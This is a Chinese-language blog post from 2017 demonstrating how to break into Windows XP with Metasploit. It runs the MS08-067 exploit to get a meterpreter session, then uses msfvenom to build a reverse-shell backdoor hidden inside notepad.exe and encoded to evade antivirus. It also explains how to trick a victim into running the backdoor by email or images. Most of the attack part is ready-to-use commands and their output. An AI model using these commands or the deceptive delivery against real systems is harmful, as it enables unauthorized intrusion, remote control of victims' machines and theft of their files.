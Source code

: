 ```yaml
---
title: "演示使用Metasploit入侵Windows"
categories: [ "安全" ]
tags: [ "系统安全" ]
draft: false
slug: "演示使用Metasploit入侵Windows-演示使用metasploit入侵windows"
date: "2017-04-08 08:48:48"
---
```




我使用Kali Linux的IP地址是192.168.0.112；在同一局域网内有一台运行Windows XP（192.168.0.108）的测试电脑。

本文演示怎么使用Metasploit入侵windows xp sp3。

启动msfconsole：

    # msfconsole

![][1] 

选择一个漏洞：

    msf > search platform: windows xp sp3 

![][2] 

exploit/windows/smb/ms08\_067\_netapi是08年发现的漏洞，等级Great。

查看某个漏洞的详细信息；包含使用方法、支持的平台等等，非常有帮助：

    msf > info exploit/windows/smb/ms08_067_netapi

![][3] 

依次执行如下命令：

    msf > use exploit/windows/smb/ms08_067_netapi
    > set payload windows/meterpreter/bind_tcp
    > set RHOST 192.168.0.108  (设置目标主机IP地址)
    > exploit

如果目标主机有这个漏洞的话，你就可以控制它了；如果没有，尝试使用其他漏洞。

    [*] Started bind handler
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP SP3 - Service Pack 3 - lang:Chinese
    [*] Selected Target: Windows XP SP3 Chinese (AlwaysOn NK)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (751104 bytes) to 192.168.0.108
    [*] Meterpreter session 1 opened (192.168.0.1:41614 -> 192.168.0.108:4444) at 2016-04-15 17:29:32
    meterpreter >

现在你就可以控制目标主机了，可以截屏、录音、视频、下载文件、杀进程等等；使用help查看可以执行的命令。

## 演示使用后门程序侵入Windows

原理：在Kali Linux上生成后门程序，然后把它发送给受害者，欺骗受害者运行（使用邮件、图片等等）。难点是需要过杀毒软件和防火墙。

生成后门程序：

我把后门程序隐藏到记事本程序中：notepad.exe

查看Kali Linux的IP：ifconfig（192.168.0.112）

创建后门程序，my_backdoor.exe：

    # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4445 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > my_backdoor.exe

![][4] 

上面命令使用加密试图躲过杀毒软件，但是，不要期望它可以生效。使用man msfvenom查看帮助。

把它发送到Windows系统，并运行；如果不能运行换用其他加密方式。

启动msfconsole：

    # msfconsole

    use exploit/multi/handler
    set LHOST 192.168.0.112
    set LPORT 4445
    set payload windows/meterpreter/reverse_tcp
    show options
    exploit

等待受害者启动后门程序。

![][5] 

OK，入侵成功。

![][6]

 [1]: /uploads/oss/2017-04-25-14916413511904.png ""
 [2]: /uploads/oss/2017-04-25-14916413691665.png ""
 [3]: /uploads/oss/2017-04-25-14916413890358.png ""
 [4]: /uploads/oss/2017-04-25-14916414413923.png ""
 [5]: /uploads/oss/2017-04-25-14916414826564.png ""
 [6]: /uploads/oss/2017-04-25-14916414933745.png ""
